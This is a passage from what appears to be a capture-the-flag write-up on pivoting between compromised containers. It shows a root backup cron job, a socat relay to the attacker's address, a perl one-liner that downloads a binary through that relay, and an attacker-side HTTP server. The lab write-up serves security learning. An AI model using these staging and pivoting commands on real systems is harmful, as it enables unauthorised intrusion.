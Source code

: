 

I can also verify the backup cron job that was running (though I now
notice I could have read this even as www--data):



    # pwd
    /etc/cron.d

    # ls -l
    total 4
    -rw-r--r-- 1 root root 38 May  4 20:55 backup

    # cat backup
    */3 * * * * root sh /backup/backup.sh



## File Upload to www

To move to the next steps, I'll want to get files uploaded to www, which
is challenging without `curl`, `wget`, or `nc`. Here's how I do it:

Start a tunnel on nodered that will listen (in this case on 8080) and
forward that to my host:



    # /tmp/s TCP-LISTEN:8080,fork TCP:10.10.14.14:8888 &



Use `perl` to request file:



    # perl -e 'use File::Fetch; my $url = "http://172.19.0.3:8080/socat"; my $ff = File::Fetch->new(uri => $url); my $file = $ff->fetch() or die $ff->error;'



Serve from workstation:



    root@kali# python3 -m http.server 8888
    Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
    10.10.10.94 - - [25/Jul/2018 08:32:32] "GET /socat HTTP/1.1" 200 -



## backup Container
